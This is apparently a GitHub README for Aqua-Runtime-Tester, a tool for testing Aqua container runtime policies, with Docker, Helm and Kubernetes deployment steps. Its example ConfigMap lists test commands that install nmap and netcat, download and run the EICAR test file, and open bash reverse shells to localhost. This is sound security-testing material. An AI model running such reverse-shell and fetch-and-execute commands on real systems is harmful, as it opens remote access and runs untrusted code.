 # Aqua-Runtime-Tester
App that allows to experiment with the Aqua Container Runtime policy controls.<br>
Ammend the commands.json with your bash commands to add additional features.

![Aqua-Runtime-Tester UI](Aqua-Runtime-Tester UI.png)


In __Docker__ do
```[bash]
docker run --rm --name aqua-runtime-tester -p 3000:3000 mulan04/aqua-runtime-tester:latest
```
which will expose the UI to http://localhost:3000/

---
To deploy in __K8s__ using __helm__ do
```[bash]
helm upgrade --install --create-namespace --namespace aqua-runtime-tester aqua-runtime-tester https://github.com/mulan04/Aqua-Runtime-Tester/raw/main/helm/aqua-runtime-tester.tgz
```

---
<details>
   <summary>To deploy in <b>K8s</b> using <b>manifests</b> do</summary>

```[bash]
kubectl create deployment aqua-runtime-tester --image=mulan04/aqua-runtime-tester
```
and to expose the deployment
```[bash]
kubectl expose deployment aqua-runtime-tester --type=LoadBalancer --port=3000
```

or
```[bash]
cat << EOF | kubectl apply -f -
kind: Service
apiVersion: v1
metadata:
  name: aqua-runtime-tester
spec:
  selector:
    app: aqua-runtime-tester
  ports:
  - protocol: TCP
    port: 3000
    targetPort: 3000
EOF
```

If you use minikube then the Aqua-Runtime-Tester UI is on 
```[bash]
minikube service list --namespace default --output='json' | jq -r '.[] | select(.Name == "aqua-runtime-tester").URLs[0]'
```

To get the output of the executed commands
```[bash]
kubectl logs -f $(kubectl get pods | grep aqua-runtime-tester | awk '{print $1}') 
```

To update the commands without rebuilding the image use a ConfigMap
```[bash]
cat << EOF | kubectl apply -f -
kind: ConfigMap
apiVersion: v1
metadata:
  name: aqua-runtime-tester-config
data:
    commands.json : |
        [
            {
                "label": "Drift Prevention (installing nmap and nc)",
                "command": "apt update && apt install nmap netcat-traditional -y"
            },
            {
                "label": "Executables Blocked (running nmap)",
                "command": "if [[ -f /usr/bin/nmap ]]; then nmap localhost; fi"
            },
            {
                "label": "AMP (installing EICAR)",
                "command": "curl https://secure.eicar.org/eicar.com -o /eicar.com  && chmod +x /eicar.com  && cat /eicar.com"
            },
            {
                "label": "Reverse Shell (to local listener)",
                "command": "bash -i >& /dev/tcp/localhost/3000 0>&1"
            },
            {
                "label": "Reverse Shell (using nc)",
                "command": "(nc -l -p 8888 &); sleep 1 ; bash -i >& /dev/tcp/localhost/8888 0>&1"
            },
            {
                "label": "kill Reverse Shell",
                "command": "pkill -ecf nc"
            }
        ]
EOF
```
and patch the deployment accordingly
```[bash]
kubectl patch deployment aqua-runtime-tester -p '{"spec":{"template":{"spec":{"volumes":[{"name":"aqua-runtime-tester-config","configMap":{"name":"aqua-runtime-tester-config"}}],"containers":[{"name":"aqua-runtime-tester","volumeMounts":[{"name":"aqua-runtime-tester-config","mountPath":"/app/config"}]}]}}}}'
```
</details>
